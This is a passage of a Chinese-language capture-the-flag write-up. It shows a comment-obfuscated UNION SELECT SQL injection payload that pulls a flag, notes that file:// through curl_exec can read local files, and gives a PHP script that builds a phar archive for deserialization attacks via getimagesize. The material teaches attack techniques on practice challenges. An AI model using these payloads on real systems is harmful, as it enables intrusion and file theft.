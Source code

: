 传入`'/**/UNION/**/SELECT/**/1,2,flag/**/FROM/**/flag#`得到flag

# easyupload

![](wp2019/截屏2021-10-07%2021.24.33.png)

# image-checker

从`class.php`可以得知存在`curl_exec`,可以使用`file://`协议来进行文件读取

从题目主页面和`imagesize.php`文件名推测其使用了`getimagesize`函数,可以利用phar反序列漏洞

---

>把博客的内容再写一遍...

```php
<?php
    class Demo{}
    $phar=new Phar("asdf.phar");//后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>");//设置存根stub
    $test=new Demo();
    $test->name='asdfgh';
    $phar->setMetadata($test);//将自定义的meta-data序列化后存入manifest
    $phar->addFromString("test.txt","asdfghjkl");//phar本质上是对文件的压缩所以要添加要压缩的文件
    $phar->stopBuffering();
?>
```
